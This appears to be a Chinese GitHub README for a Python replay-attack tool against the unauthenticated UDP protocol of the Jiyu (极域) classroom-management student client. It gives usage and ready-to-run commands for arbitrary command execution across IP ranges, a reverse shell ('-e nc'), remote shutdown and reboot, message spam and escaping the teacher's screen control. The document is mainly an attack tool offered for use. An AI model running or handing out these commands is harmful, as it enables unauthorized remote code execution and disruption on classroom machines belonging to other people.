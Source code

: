 
# 极域电子教室聊天小程序
+ 基于 极域电子教室数据包(udp)重放攻击脚本

+ 原理：因为极域的学生端没有对接收到的udp包做(=・ω・=)身份验证，导致了我们可以构造特定的数据包让学生端来执行，从而实现命令执行攻击机房内上线的任意学生端机器。
## 运行环境
+ Python3

## 版本说明
No Releases.
v20241102:
- 添加聊天，传本体。




## 使用方法：
```
usage:
双击执行，或者：

    ------------------- Github Repositories -------------------
            https://github.com/ht0Ruial/Jiyu_udp_attack

       [-h] -ip IP [-p P] [-msg MSG] [-c C] [-l L] [-t T]
       [-e {r,s,g,nc,break,continue}]
       {r,s,g,nc,break,continue} ...

positional arguments:
  {r,s,g,nc,break,continue}
                        -e 参数的详细说明
    r                   reboot 重启
    s                   shutdown 关机
    g                   独立选项，获取当前的ip地址以及学生端监听的端口
    nc                  独立选项，反弹shell的机器需出网，退出可使用命令exit
    break               独立选项，脱离屏幕控制，需要管理员权限
    continue            独立选项，恢复屏幕控制

optional arguments:
  -h, --help            show this help message and exit
  -ip IP                ip 指定目标IP地址
  -p P                  port 指定监听端口，默认端口为4705
  -msg MSG              send_message发送消息 eg: -msg "HelloWord!"
  -c C                  command命令 eg: -c "cmd.exe /c ipconfig"
  -l L                  循环次数，默认为1
  -t T                  循环时间间隔，默认是22秒
  -e {r,s,g,nc,break,continue}
                        Extra Options加载额外的选项 eg：-e r
          
```

## 使用例子

### Tips:
使用 **-ip** 参数指定目标IP时，可以有以下几种指定方式：
- 指定单个IP，如  192.168.80.12
- 指定IP范围，如 192.168.80.10-56
- 指定IP所在C段，如 192.168.80.1/24



### 1.获取内网ip地址及监听的端口
若学生端监听端口不是默认的**4705**，则在后续操作过程中需使用 **-p** 参数指定端口
```
python Jiyu_udp_attack.py -e g
```

### 2.脱离屏幕控制
当前运行权限需为管理员权限，主要用于开启MpsSvc服务
```
python Jiyu_udp_attack.py -e break
```

### 3.恢复屏幕控制
```
python Jiyu_udp_attack.py -e continue
```

### 4.发送消息
若学生端监听端口为**4705**，向IP地址为192.168.80.12的机器发送一条内容为"hello,baby!"的消息
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -msg "hello,baby!"

```

若学生端监听端口为**4605**，需使用 **-p** 参数指定端口，向IP地址为192.168.80.12的机器发送一条内容为"hello,baby!"的消息
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -p 4605 -msg "hello,baby!"

```

### 5.执行命令
给192.168.80.12到192.168.80.137弹一个计算器
```
python Jiyu_udp_attack.py -ip 192.168.80.12-137 -c calc.exe
```

### 6.反弹shell
反弹shell时，IP只能为某个机器IP，不能批量反弹，而且机器需要出网<br>
因为已经实现批量的任意命令执行，考虑到批量反弹也没啥意义，遂不添加
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -e nc
```

### 7.关机重启
关机
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -e s
```
重启
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -e r
```

### 8.循环
利用循环持续发送消息<br>
1-254的机器会收到一条"hello,baby!"的消息，50s后会继续执行，共执行3次
```
    python Jiyu_udp_attack.py -ip 192.168.80.23/24 -msg "hello,baby!" -l 3 -t 50
```





